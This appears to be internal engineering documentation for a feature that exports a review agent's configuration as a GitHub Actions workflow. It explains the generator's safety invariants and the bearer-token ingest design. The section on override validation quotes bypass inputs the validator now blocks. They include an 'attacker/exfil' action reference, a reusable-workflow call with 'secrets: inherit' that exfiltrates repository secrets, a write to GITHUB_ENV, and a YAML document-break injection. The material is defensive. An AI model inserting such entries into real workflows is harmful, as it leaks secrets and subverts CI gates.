


# Export to CI

Turns a locally-tuned DevDigest review agent into a **versioned configuration
checked into a target repository**, reviewed automatically on every pull
request by that repository's own GitHub Actions. A four-step **Export
Wizard** generates a previewable, least-privilege file set; **Install**
commits it to a `devdigest/ci` branch as an ordinary pull request and mints a
one-time ingest token; the generated workflow runs the embedded
`agent-runner` bundle and POSTs its result to one authenticated endpoint,
which writes a single `agent_runs` row with `source = 'ci'` that the **CI
Runs** page and the agent's **CI** tab render.

Shipped per [`docs/plans/spec-04-export-to-ci.md`](../plans/spec-04-export-to-ci.md)
(source spec: [`specs/SPEC-04-export-to-ci.md`](../../specs/SPEC-04-export-to-ci.md)),
across five phases — A (contracts, schema, dependencies, `65d8e82`), B (the
`ci` module's generator half, `0f8ce3a`), C (persistence, Install, ingest,
read APIs, `cd5cd43`), D (client data layer, CI tab, Export Wizard, `c9493da`),
E (CI Runs page, navigation, final sweep, `fac5cdb`) — plus one fix-loop
iteration (`26ad30b`) and a post-implementation amendment to the spec itself
(`b2117f5`) that this document reflects as the **shipped** design. HTTP/
contract lookup: [`docs/reference/ci-api.md`](../reference/ci-api.md).
Ingest-auth decision: [ADR 0010](../adr/0010-ci-ingest-bearer-token-hash-lookup.md).

**Extended by SPEC-05** (multiple review agents on one repository in CI) —
[`docs/plans/spec-05-multi-agent-ci-per-repo.md`](../plans/spec-05-multi-agent-ci-per-repo.md)
(source spec:
[`specs/SPEC-05-multi-agent-ci-per-repo.md`](../../specs/SPEC-05-multi-agent-ci-per-repo.md))
— implementation (`95ed371`), the module's first test suite (129 tests,
`0b870a9`), and two fix-loop iterations (`3dd3831`, `5561a44`) that close two
override-validator bypasses `plan-verifier` found. Removes SPEC-04's
"one repository hosts exactly one agent" limit; see
["Multi-agent CI"](#multi-agent-ci--one-namespace-workflow-and-secret-per-agent-spec-05)
below and its two ADRs:
[0008](../adr/0008-legacy-ci-installations-frozen-forever.md) (why legacy
installations are frozen, never migrated) and
[0009](../adr/0009-per-agent-workflow-file-not-matrix.md) (why each agent
gets its own workflow file instead of one shared matrix).

`agent-runner/` (the CLI this feature's output is consumed by) is a
prerequisite this feature does not modify — see
[`agent-runner/README.md`](../../agent-runner/README.md) for its own contract
(manifest loading, diff fetching, the grounding gate, the deterministic
verdict, posting, exit codes). This document only covers the studio-side
half: what generates the files the runner reads, and what receives what the
runner posts back.

## What it does

1. **The Export Wizard** (`client/.../ExportWizard/`) — four steps, **Target
   → Preview → Configure → Install**, all state held in the wizard's parent
   component so Back/Continue never discards a hand-edited workflow
   (`ExportWizard.tsx`). Steps 1–3 are free of side effects: Preview is a
   mutation the user triggers (`useCiPreview`), never a query that fires on
   mount, and nothing mints a token or writes to GitHub before Install.
   - **Target** — `owner/name` repo field; GitHub Actions is the only
     activatable target (CircleCI/Jenkins/Generic CLI render disabled). The
     server independently rejects anything but `gha`
     (`routes.ts`'s `assertGhaTarget`).
   - **Preview** — the file list on the left, the selected file's exact
     generated contents on the right. Only the workflow is editable, as a
     plain textarea; the runner bundle entry shows a placeholder ("~N KB,
     never uploaded/downloaded") instead of its real bytes.
   - **Configure** — trigger checkboxes (`opened`/`synchronize` on by
     default, `reopened` off), "Post results as" (GitHub review / PR comment
     / none), the ingest URL field, and the "Secrets expected" panel naming
     `OPENROUTER_API_KEY`, `GITHUB_TOKEN`, `DEVDIGEST_INGEST_TOKEN` with their
     distinct statuses. Changing a trigger or `post_as` here re-fetches the
     Preview so what's shown on step 2 always matches what Install will
     commit.
   - **Install** — "Open a PR with these files" or "Copy files as a zip",
     plus (on create) the one-time ingest-token display.
2. **Generation** (`server/src/modules/ci/{manifest,workflow,helpers,bundle}.ts`)
   — described in its own section below.
3. **Install** (`CiService.install`, `server/src/modules/ci/service.ts:271-441`)
   — mints the token, commits, opens/reuses the PR, persists the installation
   last.
4. **Ingest** (`CiService.ingest`, `service.ts:487-569`) — the one
   authenticated endpoint results arrive on. Described below, and the place
   this document is most careful to describe the **shipped**, not the
   originally-specified, design.
5. **Read surfaces** — the CI Runs page (`client/src/app/ci-runs/`) and the
   agent's CI tab (`.../AgentEditor/_components/CiTab/`), both plain reads
   over `agent_runs`/`ci_installations`, zero GitHub calls, zero LLM calls.

## Generation — one generator, no abstraction, safety by construction

Every generator invariant lives once, in `server/src/modules/ci/constants.ts`,
and both the generator (`workflow.ts`, `manifest.ts`) and the re-validator
(`workflow-validate.ts`) import from it — the plan's Recommendation 2,
adopted precisely because this feature shipped with no test suite (see
"Known limitations" below) and a shared source of truth was the only thing
keeping the two from silently drifting apart.

- **The manifest** (`manifest.ts`'s `buildManifest`/`emitManifestYaml`) is a
  direct field mapping from the agent row — `name`, `model`,
  `system_prompt`, `strategy`, `ci_fail_on` map unchanged; `provider` is
  **always** the literal `openrouter`, because `agent-runner` constructs
  `OpenRouterProvider` unconditionally and never reads the manifest's
  `provider` field (`agent-runner/src/index.ts:39`). Skills are the ordered
  slugs of the agent's **enabled** linked skills, read via
  `AgentsService.linkedSkillsForRun` — never a direct import of
  `AgentsRepository`. YAML is emitted via the `yaml` package's `stringify`,
  never string concatenation, and `assertManifestRoundTrips` re-parses the
  emitted YAML and re-validates it against the same `AgentManifest` Zod
  contract `agent-runner` validates with before the export can succeed —
  this is what makes a `\n---\nci_fail_on: never\n` value inside a system
  prompt harmless: it can only ever be encoded as literal text inside its own
  scalar, never as a document break.
- **Slugs** (`helpers.ts`'s `slugify`/`disambiguate`) reject or rewrite a
  path separator, `..`, a leading dot, a Windows reserved device name, and an
  all-punctuation name (falling back to `untitled` rather than an empty
  string); two skills that slugify identically get deterministic `-2`, `-3`
  suffixes rather than one silently overwriting the other.
- **The workflow** (`workflow.ts`'s `buildWorkflow`/`emitWorkflowYaml`) is
  built as a `yaml.Document` object graph, never a template string, so the
  two pinned actions' version comments attach as real trailing YAML comments.
  Its invariants, all sourced from `constants.ts`:
  - `on:` is `pull_request` and only `pull_request`, with `types:` limited to
    the caller's selection intersected against `ALLOWED_TRIGGERS` — an
    unexpected trigger value can never reach the emitted YAML regardless of
    what called the generator.
  - `permissions:` is exactly `{ contents: read, pull-requests: write }`, or
    `{ contents: read, pull-requests: read }` when `post_as === 'none'` — no
    job-level `permissions:` block is ever emitted to widen it.
  - The job carries a fork guard (`FORK_GUARD_EXPR` —
    `github.event.pull_request.head.repo.full_name == github.repository`) so
    it never executes for a PR from a fork, where secrets are withheld
    anyway and `pull_request_target` (the tempting "fix") is forbidden
    outright by never appearing in `FORBIDDEN_EVENTS`'s complement.
  - `actions/checkout` and `actions/setup-node` are pinned to full 40-hex
    commit SHAs (`PINNED_ACTIONS`, resolved via `git ls-remote --tags` on
    2026-08-23 — v4.2.2 and v4.4.0 respectively), with the human-readable
    version as a trailing comment. `node-version: '22'`, matching the
    runner's own documented floor (`agent-runner/src/github.ts:6-12`) and
    root `AGENTS.md`'s Node ≥ 22 pin.
  - The review step runs **exactly** `node .devdigest/runner/index.js` — no
    subcommand, no flags, never `index.mjs` — with `continue-on-error: true`
    so the reporting step still runs after a blocking review, and an `env:`
    map carrying `OPENROUTER_API_KEY`, `GITHUB_TOKEN`, `GITHUB_REPOSITORY`,
    `PR_NUMBER`, `DEVDIGEST_POST_AS`. No fail-on value travels through the
    workflow in any form — the gate reaches CI **only** through the
    manifest's `ci_fail_on`, so there is never a second channel that can
    disagree with it.
  - The reporting step (`if: always()`) is a plain `curl`, not a third-party
    action, keeping the workflow's action surface at exactly two. It derives
    its own `status` (`succeeded` / `no_findings` / `failed`) from the
    artifact's own `findings_count` — **not** from the review step's exit
    code — because the review step's exit code is deliberately non-zero
    whenever the gate triggers `REQUEST_CHANGES`; conflating the two would
    make a correctly-blocking review indistinguishable from a pre-review
    crash and would make `no_findings` unreachable (fixed in fix-loop
    iteration 1, "finding 3").
  - A final gate step re-fails the job when the review step's outcome was
    `failure`, so `continue-on-error` on the review step never turns a
    blocking review green.
- **Hand-edited overrides are re-validated server-side**
  (`workflow-validate.ts`'s `validateWorkflowOverride`), never trusted from
  the client. It parses the submitted YAML first (an unparseable override is
  refused outright) and then asserts **over the parsed object**, not the raw
  string — a regex over text is trivially bypassable via comments, quoting,
  or flow style. The one string-equality check kept is the review step's
  `run:` value against the exact `RUN_COMMAND` constant, which is what
  refuses `node .devdigest/runner/index.js --agent other`.
- **The runner bundle** (`bundle.ts`'s `readRunnerBundle`) is read from
  `agent-runner/dist/index.js` at export time, resolved from
  `import.meta.url` rather than `process.cwd()` (so it's correct whether the
  server runs under `tsx` or from a built `dist/`). It's git-ignored and
  absent on a fresh clone by design — a missing bundle fails the export with
  a message naming the exact path and the command that produces it
  (`cd agent-runner && pnpm build`), before any GitHub call and before any
  token is minted. Preview never sends or receives the real bytes — it shows
  a one-line size placeholder (`preview_omitted: true` on that `CiFile`);
  Install and the zip export re-read the bundle from disk and swap in the
  real contents just before committing/zipping.

## Multi-agent CI — one namespace, workflow and secret per agent (SPEC-05)

SPEC-04 shipped with a hard limit: one repository could host exactly one
DevDigest agent, enforced by three fixed paths in `constants.ts`
(`.devdigest/agents/`, `.devdigest/skills/`,
`.github/workflows/devdigest-review.yml`) and a `ConflictError` thrown by
`install()` unless the caller confirmed `replace_existing` — replacing was
destructive, deleting the other agent's installation row outright. SPEC-05
removes that limit by giving every **new** installation its own namespace,
so N agents can share a repository with none of them overwriting another.

- **The namespace** is derived once, server-side, and never client-supplied
  (`helpers.ts`'s `deriveNamespace(agentName, taken)`): `slugify(agentName)`
  first (inheriting every hostile-input guarantee `slugify` already has —
  charset, `..`, leading-dot, reserved device names, non-empty fallback),
  then a numeric suffix incremented until the result is absent from the
  repository's already-taken namespaces. This is deliberately **not**
  `disambiguate([...taken, candidate])` — `disambiguate` counts occurrences
  *within one list*, so `taken = ['sec', 'sec-2']` and a fresh candidate
  `sec` would land on `sec-2` too, colliding with the already-taken one.
  `deriveNamespace` increments until it actually finds a free slot.
  `disambiguate` itself is untouched — the skill-slug path still depends on
  its existing behavior.
- **Every namespaced path is a pure function of the namespace**, added
  beside the existing SPEC-04 literals in `constants.ts` —
  `agentsSubdirFor`, `skillsSubdirFor`, `memoryPathFor`, `workflowPathFor`,
  `devdigestDirFor`, `ingestSecretNameFor`, `workflowNameFor` — each takes
  `namespace: string | null` and returns the **unchanged SPEC-04 literal**
  when `null` (legacy). `RUNNER_PATH` and `RUN_COMMAND` are deliberately
  **not** parameterized — the runner bundle stays one shared file per
  repository regardless of how many namespaced installations read it, and
  the review step's command stays byte-identical to SPEC-04's
  `node .devdigest/runner/index.js`, no subcommand, no flags.
- **A namespaced installation's file set**: `.devdigest/<ns>/agents/<slug>.yaml`,
  one `.devdigest/<ns>/skills/<slug>.md` per enabled linked skill,
  `.devdigest/<ns>/memory.jsonl`, the shared `.devdigest/runner/index.js`,
  and `.github/workflows/devdigest-review-<ns>.yml`. The generator asserts
  exactly one manifest lands under that namespace's `agents/` directory
  before returning the file set — `agent-runner` refuses to start
  otherwise — and fails the whole export, before any GitHub call, if that
  ever isn't true.
- **The namespaced workflow** declares a top-level `name:` derived from the
  namespace (`devdigest-review-<ns>`, never the agent's raw display name),
  so each agent's check run is distinguishable in the pull request's checks
  list. A **legacy** workflow emits **no** `name:` key at all — adding one
  would change that installation's check-run identity and could silently
  invalidate an already-configured required status check in the target
  repo's branch protection. The review step gains
  `DEVDIGEST_DIR: .devdigest/<ns>` in its own `env:` when namespaced (the
  whole mechanism `agent-runner` uses to find that agent's manifest,
  `agent-runner/src/index.ts:31`) and nothing when legacy, leaving the
  runner's own `<cwd>/.devdigest` default in force. The reporting step
  references that installation's **own** ingest secret,
  `${{ secrets.DEVDIGEST_INGEST_TOKEN_<NAMESPACE> }}` — see "Secrets"
  below. `WORKFLOW_VERSION` (`constants.ts`) was bumped to `2` for this
  change; a legacy re-export still emits byte-identical YAML but records
  version `2` too — harmless, since the CI tab's drift banner compares
  `agent_version`, never `workflow_version`.
- **Layout resolution is one function, shared by Preview, Install and
  Zip** — `CiService.resolveLayout` (`service.ts`) — so what Preview shows
  can never drift from what Install commits. For an installation that
  already exists, it reuses that row's own persisted `namespace` and
  `manifestPath` **verbatim**, however many times the agent has since been
  renamed. For a brand-new installation, it derives a fresh namespace among
  the repository's other installations' taken namespaces — uniformly,
  including the very first agent ever exported to a repository: there is
  no "first agent gets the short paths" special case.
- **The different-agent conflict is gone.** `install()`'s old
  `ConflictError` branch — the one that deleted another installation's row
  on a confirmed `replace_existing` — no longer exists. Exporting a second,
  different agent to a repository that already hosts one now proceeds as
  an ordinary install: two rows, two namespaces, two token hashes, nothing
  deleted. In its place, a **fail-closed collision guard** runs before any
  GitHub call: for every *other* installation already on the repo, the
  export computes that installation's own owned directories/files (from its
  own persisted namespace) and refuses — committing nothing — if any path
  this export is about to write falls inside one, compared on path
  segments (an exact `dir + '/'` boundary), never a raw string prefix, so
  `.devdigest/agents/` can never appear to "contain" a sibling whose slug
  merely starts with the same text. The only path every installation is
  *allowed* to share is the runner bundle itself.
- **Each installation gets its own branch and its own PR (post-ship revision
  of D-2).** SPEC-05 originally shipped with every installation on a
  repository — legacy or namespaced, however many — sharing the single
  `devdigest/ci` branch and reusing one open pull request. In real use, a
  second agent's own export landing inside a PR titled after a different,
  unrelated agent (that PR's title was set once, from whichever agent was
  installed first, and never retitled) proved confusing enough to be
  reported and treated as a bug, not an accepted cosmetic cost. Each
  installation now commits to `ciBranchFor(namespace)` — the bare
  `devdigest/ci` for a legacy installation (AC-14 still allows only one
  legacy installation per repository, so nothing to separate there), or
  `devdigest/ci-<namespace>` for a namespaced one — and opens/reuses **that
  branch's own** PR via `findOpenPr`'s branch-scoped lookup, titled from ITS
  OWN agent's name. Re-exporting ("Update CI config") the SAME agent still
  correctly reuses that installation's own already-open PR; only a
  DIFFERENT agent's export no longer can.
- **The runner bundle stays one shared file** (`.devdigest/runner/index.js`)
  for the whole repository, not one copy per namespace — every installed
  agent's workflow runs the exact same bundle, whichever version happened
  to be on the studio's disk at the most recent export of *any* agent on
  that repository. Nothing records or surfaces which bundle version a
  given agent is actually running.
- **Legacy installations are frozen forever** — see
  [ADR 0008](../adr/0008-legacy-ci-installations-frozen-forever.md) for the
  full reasoning; in short, `commitFiles` (this module's only GitHub-writing
  primitive) can create or overwrite a path but never delete one, so a
  "migration" that committed namespaced files without also being able to
  retract the old workflow file would strand that old workflow still
  committed and still running. `ci_installations.namespace IS NULL` *is*
  the definition of legacy — a nullable column with no default and no
  backfill, never written to by any later export of that same row.
- **Each agent gets its own workflow file rather than one shared matrix
  job** — see [ADR 0009](../adr/0009-per-agent-workflow-file-not-matrix.md):
  a matrixed job cannot vary GitHub Actions `permissions:` per matrix cell,
  so one agent configured `post_as: 'none'` sharing a matrix with an agent
  that posts reviews would be silently widened to the write permission it
  never asked for. Separate files keep each installation's own
  least-privilege `permissions:` block genuinely least-privilege.

### Secrets — one ingest token name per agent

Every namespaced installation gets its own ingest secret name,
`DEVDIGEST_INGEST_TOKEN_<NAMESPACE>` (namespace uppercased, `-` → `_`,
`ingestSecretNameFor` in `constants.ts`) — a legacy installation keeps the
bare `DEVDIGEST_INGEST_TOKEN`. Because `slugify` only ever emits
`[a-z0-9-]`, no `_` can survive into a namespace, so this mapping can never
collide two distinct namespaces onto one secret name; the fixed
`DEVDIGEST_INGEST_TOKEN_` prefix also guarantees GitHub's Actions-secret
naming rules regardless of the namespace's content. The name is stable for
an installation's whole life, derived from the same persisted namespace a
re-export always reuses — nobody is ever asked to re-paste a token under a
new name. Minting, hashing and one-time display stay per installation,
exactly as SPEC-04 shipped: deleting or re-exporting one agent's
installation never touches another's token. The Export Wizard's "Secrets
expected" panel and the one-time token dialog both show this installation's
**own** secret name (`ingest_secret_name`, returned by Preview and by
`CiInstallation`) rather than the literal `DEVDIGEST_INGEST_TOKEN` — a user
pasting a token needs the exact name, and deriving it by hand from an
agent's display name is guesswork the UI no longer requires. The CI tab
renders each installation's own secret name for the same reason.

### Hand-edited override re-validation — widened for AC-24, twice

`workflow-validate.ts`'s `validateWorkflowOverride` now also takes this
installation's own resolved `{ namespace }` and refuses an override that
tries to aim one agent's workflow at **another** agent's namespace or
ingest secret. Two fix-loop iterations closed real bypasses `plan-verifier`
found in this widened surface, both fail-closed (nothing committed):

- **Iteration 1** (`3dd3831`) closed two bypasses of the original AC-24
  checks: a step's `run:` body could write a foreign `DEVDIGEST_DIR` into
  `$GITHUB_ENV` for a *later* step (including the review step) to inherit,
  sidestepping every `env:`-map check entirely — refused unconditionally as
  `github_env_write`, on any mention of `GITHUB_ENV` in any step's `run:`
  body. And the `uses:` check only verified SHA-pin *shape*
  (`owner/repo@<40-hex>`), not *identity* — `attacker/exfil@<any 40 hex>`
  passed — now matched by exact equality against `constants.ts`'s
  `PINNED_ACTIONS` allowlist (`action_not_allowlisted`), and the foreign-
  secret-reference scan (originally `env:` only) was widened to `with:` at
  every level, since an action's own inputs are the same exfiltration
  channel as its environment.
- **Iteration 2** (`5561a44`) closed a bypass surviving iteration 1: a
  **reusable-workflow-call job** (`jobs.exfil: { uses:
  'attacker/repo/.github/workflows/x.yml@<sha>', secrets: inherit }`) has
  no `steps` array at all, so the per-job loop's "skip jobs with no steps"
  fallthrough skipped every step-level check — including the `uses:`
  allowlist, which only ever ran *inside* the step loop — leaving
  `job.uses` and a job-level `secrets: inherit` (which hands the *called*
  workflow every repository secret, including every other installation's
  own ingest secret) completely unscanned. Both are now refused
  unconditionally at the job level, reusing the existing
  `action_not_allowlisted` / `foreign_secret_reference` names since
  `plan-verifier` read them as the same AC-24 invariant reached through a
  channel none of the earlier checks covered.

### What the target repository looks like with two agents installed

The sequence diagram below (under "Ingest auth") already covers this
feature's *runtime* flow — Export → Install → a CI job running → ingest.
The diagram here answers a different, static-structure question this
feature doesn't otherwise show in prose as clearly: which files, in the
target repository, belong to which agent, and how two independent
workflows both reach the one shared runner bundle.



Both dotted edges are the same runner bundle, executed in two different
workflow runs, each with its own `DEVDIGEST_DIR` — the runner never sees
the other namespace. A legacy installation on the same repo would add a
third workflow (no `name:` key, no `DEVDIGEST_DIR`) reading the unnamespaced
`.devdigest/agents/` directly, and the same `RUNNER_PATH` unchanged.

### Testing

Unlike SPEC-04, which shipped this module with zero automated tests, SPEC-05
shipped its own coverage — 129 tests, `0b870a9`, this module's first test
suite at all: 109 server (namespace derivation and collision, path/name
derivation for both layouts, generated-workflow invariants for both
namespaced and legacy variants, AC-24 override re-validation including both
fix-loop bypasses, the multi-agent install flow via `MockGitHubClient`, and
ingest attribution/idempotency across more than one installation per repo)
plus 20 client (predicate-based file selection in the Export Wizard,
`replace_existing` no longer sent, the conflict dialog's removal, the
per-installation secret name rendered in Configure/Install/the CI tab).

## Ingest auth — the shipped design (Bearer token + hash-keyed lookup)

**This is the one place the Spec changed after implementation, and this
document describes only what shipped.** The generated workflow's reporting
step sends a single header:

```
Authorization: Bearer <token>
```

(`workflow.ts`'s `reportScript`, `INGEST_TOKEN: '${{ secrets.DEVDIGEST_INGEST_TOKEN }}'`).
The server (`CiService.ingest`, `service.ts:487-569`) parses that header,
hashes the presented token with SHA-256, and looks up the installation whose
stored `token_hash` matches:

```ts
const token = parseBearerToken(authorizationHeader);
const hash = createHash('sha256').update(token, 'utf8').digest('hex');
const installation = await this.repo.findInstallationByTokenHash(hash);
if (!installation) throw new UnauthorizedError(...);
```

The **lookup itself is the authentication** — a hash match both identifies
the installation and proves possession of the token in one step, so there is
no separate installation-identifying value and no `timingSafeEqual`
constant-time comparison anywhere on this path. `ci_installations` stores
only `sha256(token)` (`token_hash`, plain-indexed, not unique — a hash
collision is outside this feature's threat model) and never the plaintext;
the plaintext exists only in the immediate Install response
(`CiExport.ingest_token`), shown once, and is never re-fetchable, logged, or
present on an update response.

**Why this differs from the original spec.** AC-51 and D-1 originally called
for a *separate* installation-identifying header plus a constant-time
comparison against that installation's stored hash. That design could not
actually work: Preview must produce byte-identical output to what Install
later commits (AC-5), and Preview runs **before** any installation exists —
there is no installation id to bake into the generated workflow at
generation time. The original ingest endpoint therefore read two custom
headers (`x-devdigest-installation` / `x-devdigest-token`) the generator
never emitted, so the ingest path could never authenticate in production.
`plan-verifier`'s Phase 1 audit caught this; fix-loop iteration 1 replaced it
with the single-`Authorization`-header, hash-keyed-lookup design described
above, and the Spec's AC-51/D-1 were amended post-implementation
(`b2117f5`) to describe the design that actually shipped. See
[ADR 0010](../adr/0010-ci-ingest-bearer-token-hash-lookup.md) for the full
before/after and why the hash-keyed lookup needs no constant-time comparison
to be safe.

Everything else about the ingest path is unchanged from the Spec's original
intent:

- `getContext` is **never called** on `POST /ci/ingest` — tenancy is derived
  entirely from `ci_installations.agent_id → agents.workspace_id`, resolved
  from the authenticated installation, because the table carries no
  `workspace_id` column of its own.
- The route deliberately does **not** declare a zod `body` schema at the
  Fastify level (unlike every other route in this codebase) — automatic
  schema validation runs *before* the handler, which would validate an
  unauthenticated caller's body before the header check. `CiService.ingest`
  does the zod parse itself, strictly after the auth check succeeds, so an
  unauthenticated caller learns nothing about whether their body was even
  well-formed.
- A reported `repo` that doesn't string-equal the installation's own `repo`
  is rejected (a single equality check, never a GitHub lookup — a renamed
  repository therefore silently stops reporting until re-exported).
- The `(ci_installation_id, actions_run_id)` unique index makes a duplicated
  POST (a retried Actions step) a no-op success rather than a duplicate row.
- Every column on the `agent_runs` insert is assigned explicitly — nothing
  is spread from the request body.



## The CI tab and CI Runs

- **CI tab** (`.../AgentEditor/_components/CiTab/CiTab.tsx`) — a
  per-installation row (repo, target label, last-run status + relative time
  or "never ran"), a drift banner naming both versions when
  `agent.version` has moved past the installation's recorded
  `agent_version`, an editable **Fail CI on** select (persists through the
  existing agent-update path — no new route), **Update CI config** (reopens
  the wizard pre-filled, same generation/validation/PR path as a first
  install), and **Remove installation** (deletes the row; the committed
  workflow keeps running and its reports simply start getting rejected,
  since `agent_runs.ci_installation_id` is `ON DELETE SET NULL` so past runs
  stay readable). Rendering the tab issues zero export requests and zero
  GitHub calls.
- **CI Runs** (`client/src/app/ci-runs/_components/CiRunsView/CiRunsView.tsx`)
  — one server-side filter (time window, default 7 days) plus four
  client-side filters (agent, repo, status, source) narrowing the same
  fetched set. Columns: timestamp, pull request (number + title), agent,
  source, duration, findings (severity split when known, else the total,
  else an honest dash — never a fabricated zero), cost, status
  (`succeeded`/`no_findings`/`failed`/`running`, rendered distinctly), and a
  per-row link to the CI **job** URL (there is no run trace for a CI row —
  the runner emits a result and nothing else). Manual Refresh only; the page
  never polls.
- The **source** column renders whatever free-form label the authenticated
  caller reported (`"github_actions"` from the generated workflow, but the
  server validates and branches on nothing there) — a different concept from
  `agent_runs.source`'s `'local' | 'ci'` enum, which is the page's *filter
  predicate*, never a rendered column.

## Known limitations (honest, non-blocking)

- **Upgrade caveat — migration `0022` has no default for
  `ci_installations.manifest_path`.** Fix-loop iteration 1 added
  `manifest_path` as `NOT NULL` with no default. That's safe for anyone
  migrating fresh (`0021` creates the table and `0022` adds the column in
  the same run against an empty table) — it only breaks a developer who
  checked out this branch **before** the fix-loop commit *and* had already
  performed a real Install. **If that's you: run `delete from
  ci_installations;` before running `pnpm db:migrate`.** (A three-statement
  nullable→backfill→`SET NOT NULL` migration would have avoided this, but
  hand-editing a generated migration is against this repo's rules —
  `server/src/db/migrations/**` is do-not-touch.)
- **Preview and Install can disagree on the manifest's displayed path label**
  for a renamed or previously-replaced installation. Fix-loop iteration 1
  made the manifest path a stable, persisted property of the installation
  (`ci_installations.manifest_path`) so a second export of an
  already-installed agent always reuses its own path rather than
  re-deriving it from the agent's *current* name (which used to leave two
  manifest files in the target tree — a repository `agent-runner` then
  refuses to start in, `findManifestPath` throws on more than one). Only
  `install()` passes that stable path through; the Preview route still
  re-derives the path fresh each time from the agent's current name. The
  committed file's **contents** are identical either way — only the
  **displayed path label** on Preview can differ from what Install actually
  commits, for a renamed or previously-replaced agent. Non-blocking; not
  sent to a second fix-loop iteration.
- **SPEC-04 shipped this module with zero automated tests; SPEC-05 is the
  one that added them.** AC-19–AC-31's original twelve generator invariants
  and AC-32's four named attack strings were originally verified only by
  manual reads recorded in the SPEC-04 plan's work items. SPEC-05's own test
  suite (129 tests, `0b870a9` — see "Testing" above) exercises both the
  namespaced and the legacy workflow variant, which incidentally re-asserts
  most of SPEC-04's original invariants for the legacy path alongside the
  new namespaced one; it was not written as a dedicated SPEC-04 regression
  suite, so treat this as materially better coverage, not a formal claim
  that every original AC-19–AC-32 clause has its own named test.
- **A renamed target repository silently stops reporting** (the ingest
  path's `repo` check is a string equality, never a GitHub lookup) until the
  installation is re-exported. Accepted for v1 rather than designed around.
- **The zip export path mints no installation and no ingest token** — it's a
  "take these files and install them yourself" escape hatch; CI Runs won't
  record anything for a repo installed this way until it's later installed
  through the PR path instead. For a not-yet-installed agent, this path also
  resolves and bakes in a *candidate* namespace and secret name that no
  installation will ever actually hold — a later real export of the same
  agent may derive a different suffix if another agent has since claimed
  the candidate on that repo. Pre-existing zip-path shape, widened by
  namespacing rather than newly introduced.
- ~~The shared pull request's title names only the first agent ever
  installed on a repository~~ — **fixed, post-ship** (formerly E-3/D-2). Each
  installation now opens its own PR on its own branch, titled from its own
  agent's name — see "Each installation gets its own branch and its own PR"
  above.
- **The shared runner bundle carries no version marker** (SPEC-05's OQ-1,
  open by decision). `.devdigest/runner/index.js` is one file for the whole
  repository; exporting any agent ships whatever bundle version is on the
  studio's disk *right now* to every other agent already installed on that
  repo too. Nothing records or surfaces which bundle version a given agent
  is actually running.
- **The CI tab does not surface the resulting GitHub check name per
  installation** (OQ-3, open by decision) — only the secret name. A repo
  owner configuring branch protection with N agents installed must still
  work out each agent's check name (`devdigest-review-<ns>`) themselves.
- **No cap on per-repository fan-out** (E-12/OQ-4, open by decision). N
  agents on one repository means N workflow runs, N LLM reviews and N
  ingest POSTs per pull request event, against an ingest rate limit
  (`INGEST_RATE_LIMIT`, 60/min) that was sized when one agent per repo was
  the only possibility and has not been re-sized for N-agent fan-in.
- **No uninstall that removes files from the target repository** (OQ-5,
  open by decision — unchanged from SPEC-04). `DELETE
  /ci/installations/:id` still only deletes the database row; the
  namespace directory and workflow file stay in the repository, the
  workflow keeps running and keeps gating the PR, and its ingest POSTs
  then start failing `401` (the token hash no longer resolves to any
  installation) — the check still runs, it just stops reporting.
- **No database-enforced namespace uniqueness** (Recommendation 2, by
  design — a global `unique(repo, namespace)` index would let one
  workspace's export collide with a same-named repository in a different
  workspace). Uniqueness is enforced only in `service.ts`, over a
  workspace-scoped read; two genuinely concurrent first-exports of
  same-slugging agents to one repository can still race onto the same
  namespace — the same accepted-risk class as the shared branch's own
  concurrent-commit race (E-5), not fixed here either.

## Key source map

| Concern | Location |
|---|---|
| Routes | `server/src/modules/ci/routes.ts` |
| Service (Preview, Install, ingest, reads, delete) | `server/src/modules/ci/service.ts` |
| Manifest field mapping + YAML emission | `server/src/modules/ci/manifest.ts` |
| Workflow generator | `server/src/modules/ci/workflow.ts` |
| Workflow re-validator (hand-edited overrides) | `server/src/modules/ci/workflow-validate.ts` |
| Slugs, repo-ref parsing, provider-notice predicate | `server/src/modules/ci/helpers.ts` |
| Runner bundle read | `server/src/modules/ci/bundle.ts` |
| Generator invariants (single source of truth) | `server/src/modules/ci/constants.ts` |
| DB port (no Drizzle import) | `server/src/modules/ci/repository.ts` |
| DB adapter (Drizzle) | `server/src/modules/ci/repository.drizzle.ts` |
